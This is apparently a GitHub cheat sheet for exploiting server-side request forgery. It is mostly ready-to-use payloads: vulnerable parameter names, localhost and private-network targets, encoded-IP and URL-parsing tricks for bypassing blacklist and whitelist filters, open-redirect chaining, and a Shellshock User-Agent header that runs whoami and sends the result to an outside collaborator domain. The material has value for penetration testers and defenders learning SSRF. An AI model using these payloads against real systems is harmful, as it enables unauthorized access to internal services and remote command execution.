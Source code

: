 ## Index:

1. [SSRF Vulnerability Overview](#ssrf)
2. [Common SSRF Endpoints](#common-ssrf-endpoints)
3. [Tips](#tips)
   - [Port and Path Exploitation](#port-and-path-exploitation)
   - [File Uploads](#file-uploads)
   - [Internal Private IPv4 Networks](#internal-private-ipv4-networks)
4. [Common Method (API Parameter)](#common-method-(api-parameter))
5. [Blind Method](#blind-method)
   - [Using Burp Collaborator in Referer Header](#using-burp-collaborator-in-referer-header)
   - [Shellshock Exploitation via SSRF](#shellshock-exploitation-via-ssrf)
6. [Bypassing Common SSRF Defenses](#bypassing-common-ssrf-defenses)
   - [SSRF with Blacklist-Based Input Filters](#ssrf-with-blacklist-based-input-filters)
   - [SSRF with Whitelist-Based Input Filters](#ssrf-with-whitelist-based-input-filters)
     - [Embedding Credentials in a URL](#embedding-credentials-in-a-url)
     - [Using URL Fragment for Bypass](#using-url-fragment-for-bypass)
     - [DNS Naming Hierarchy Bypass](#dns-naming-hierarchy-bypass)
   - [Bypassing SSRF Filters via Open Redirection](#bypassing-ssrf-filters-via-open-redirection)

## SSRF
This vulnerability helps attacker to send request to back-end systems. To learn >> https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf

## Common SSRF Endpoints
```
dest=
path=
window=
next=
site=
reference=
data=
load=
html=
validate=
page=
return=
callback=
domain=
feed=
view=
dir=
request-baskets=
dict=
pdf=
file=
imageuri=
url=
key=
.json=
oauth=
redirect=
api=
dashboard=
config.=
```
### Tips
1. Try with port number, path.
2. File uploads: instead of uploading a file, try sending a URL and see if it downloads the content of the URL. Example: https://hackerone.com/reports/713
3. If you do want to look for internal services, here’s a list of private IPv4 networks that you could scan for services:

    10.0.0.0/8

    127.0.0.1/32

    172.16.0.0/12

    192.168.0.0/16
## Commom method (api parameter)
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in referer header
```txt
Referer: http://burpcollaborator.net
```
#### Shellshock exploitation via SSRF
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Bypassing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://127.0.0.1:21/?%0A >> You can change port number if needed.
http://[::]:80/ 
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#@expected-host
    https://burpcollaborator.net#@google.com
```
Double URL-encode # to %2523.
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
